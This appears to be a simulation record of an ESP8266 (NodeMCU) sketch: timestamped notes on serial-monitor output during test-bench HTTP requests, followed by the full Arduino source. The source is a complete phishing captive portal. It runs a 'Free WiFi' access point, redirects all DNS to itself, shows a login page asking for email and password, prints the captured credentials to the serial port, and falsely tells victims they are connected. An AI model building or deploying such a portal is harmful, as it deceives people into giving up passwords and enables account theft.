
Recording of a sketch running on a simulated ESP8266 (NodeMCU). On the bench: the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: HTTP request GET /submit received
At 2.4 s:

2.8 s: HTTP request GET /submit?email=1 received
At 3.6 s:


Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.8 s, the serial monitor: prints a new line at once (image 2)

The sketch:

esp8266_webserver_captiveportal.ino
```cpp
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// WiFi ağı bilgileri
const char* ssid = "captiveWeb";       // WiFi ssid
const char* password = "Test.1234";    // WiFi şifre

// Web sunucusu için port
const byte DNS_PORT = 53;
IPAddress APIP(172, 0, 0, 1); // Gateway IP
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// Kullanıcı bilgilerini saklamak için
String userEmail = "";
String userPassword = "";

void setup() {
  Serial.begin(115200);

  // WiFi erişim noktasını başlat (şifreli)
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(ssid, password);

  // DNS sunucusunu başlat (Captive Portal için)
  dnsServer.start(DNS_PORT, "*", APIP);

  // Web sunucusu rotalarını tanımla
  webServer.on("/", handleRoot); // Ana sayfa
  webServer.on("/submit", handleSubmit); // Form gönderimi
  webServer.onNotFound(handleRoot); // Tüm istekleri ana sayfaya yönlendir

  // Web sunucusunu başlat
  webServer.begin();
  Serial.println("Web server started");

  // Erişim noktasının IP adresini yazdır
  Serial.print("Access Point IP address: ");
  Serial.println(WiFi.softAPIP());
}

void loop() {
  // DNS isteklerini işle
  dnsServer.processNextRequest();

  // Web sunucusu isteklerini işle
  webServer.handleClient();
}

// Ana sayfa (Captive Portal)
void handleRoot() {
  String html = "<!DOCTYPE html><html><head><title>Free WiFi</title>"
                "<meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">"
                "<style>"
                "body { font-family: Arial, sans-serif; text-align: center; margin-top: 50px; }"
                "form { display: inline-block; text-align: left; }"
                "input { margin: 10px 0; padding: 10px; width: 100%; }"
                "button { background-color: #4CAF50; color: white; padding: 10px 20px; border: none; cursor: pointer; }"
                "button:hover { background-color: #45a049; }"
                "</style></head><body>"
                "<h1>Welcome to Free WiFi</h1>"
                "<p>Please log in to access the internet.</p>"
                "<form action=\"/submit\" method=\"post\">"
                "<label for=\"email\">Email:</label><br>"
                "<input type=\"email\" id=\"email\" name=\"email\" placeholder=\"Enter your email\" required><br>"
                "<label for=\"password\">Password:</label><br>"
                "<input type=\"password\" id=\"password\" name=\"password\" placeholder=\"Enter your password\" required><br>"
                "<button type=\"submit\">Log In</button>"
                "</form></body></html>";
  webServer.send(200, "text/html", html);
}

// Form gönderimi işleme
void handleSubmit() {
  // Kullanıcıdan gelen verileri al
  userEmail = webServer.arg("email");
  userPassword = webServer.arg("password");

  // Serial Monitor'de yazdır
  Serial.println("New submission:");
  Serial.println("Email: " + userEmail);
  Serial.println("Password: " + userPassword);

  // Kullanıcıya teşekkür mesajı göster
  String html = "<!DOCTYPE html><html><head><title>Thank You</title>"
                "<meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">"
                "<style>"
                "body { font-family: Arial, sans-serif; text-align: center; margin-top: 50px; }"
                "</style></head><body>"
                "<h1>Thank You!</h1>"
                "<p>You are now connected to the internet.</p>"
                "</body></html>";
  webServer.send(200, "text/html", html);
}
```
